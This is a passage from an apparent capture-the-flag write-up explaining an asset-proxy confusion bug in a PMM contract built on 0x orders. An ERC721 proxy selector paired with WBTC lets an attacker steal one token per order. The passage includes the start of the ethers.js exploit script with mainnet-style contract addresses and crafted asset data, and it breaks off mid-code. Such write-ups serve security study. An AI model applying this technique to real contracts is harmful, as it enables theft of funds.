 But how does this help us? The ERC721 proxy will call
`ERC721(address).transferFrom(from, to, 0)`, so wouldn’t that simply
fail if we set `address == WBTC`? As it turns out, no! Coincidentally,
`ERC721.transferFrom` and `ERC20.transferFrom` have the same signature,
so the `transferFrom` call will look like an attempt to transfer 0 WBTC!

## [](https://hackmd.io/@theori/r1gnaGNks#Exploit3 "Exploit3")Exploit

In order to exploit this bug, we need to execute a 0x order with
`makerAssetData = abi.encodeWithSelector(ERC721_PROXY_SELECTOR, WBTC)`.
PMM assumes that 0x uses the ERC20 proxy and transfers
`makerAssetAmount` of WBTC, but instead the ERC721 proxy transfers 0
`WBTC`! PMM will then transfer us `makerAssetAmount` of WBTC.

So… does that mean somebody could currently drain the PMM contract of
all its tokens? Not quite, because of one small detail: the ERC721 proxy
requires that `makerAssetAmount = 1` (because transfering more than 1
ERC721 of the same `tokenId` doesn’t make sense). This means that for
each order you execute, you can only steal 1 of the token, which is
almost always a negligible amount of value (especially compared to the
gas cost of the exploit!). In this challenge, we’re paying for gas with
fake ETH, so we will simply repeat the exploit 128 times to get the
flag!

Actually constructing and executing the orders is a little bit tedious,
so we won’t explain all the details, but the full exploit code is below:

```
import { BigNumber, Contract, providers, Wallet, utils } from "ethers";
import { readFileSync } from "fs";

const provider = new providers.JsonRpcProvider("{REDACTED}")
const privkey = "{REDACTED}";
const wallet = new Wallet(privkey, provider);

async function main() {
    console.log(await provider.getBlockNumber());

    const WBTC = new Contract(
        "0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599",
        readFileSync("WBTC.abi").toString(),
        wallet
    );
    const PMM = new Contract(
        "0x8D90113A1e286a5aB3e496fbD1853F265e5913c6",
        readFileSync("PMM.abi").toString(),
        wallet
    );
    const UserProxy = new Contract(
        "0x03f34be1bf910116595db1b11e9d1b2ca5d59659",
        readFileSync("UserProxy.abi").toString(),
        wallet
    );
    const ZeroExchange = new Contract(
        "0x080bf510FCbF18b91105470639e9561022937712",
        readFileSync("zeroex.abi").toString(),
        wallet
    );

    let before = WBTC.balanceOf(PMM.address);

    // truncated ERC-721 proxy, reads 0 for tokenID
    let fakeMakerAssetData = "0x025717920000000000000000000000002260FAC5E5542a773Aa44fBCfeDf7C193bc2C599";
```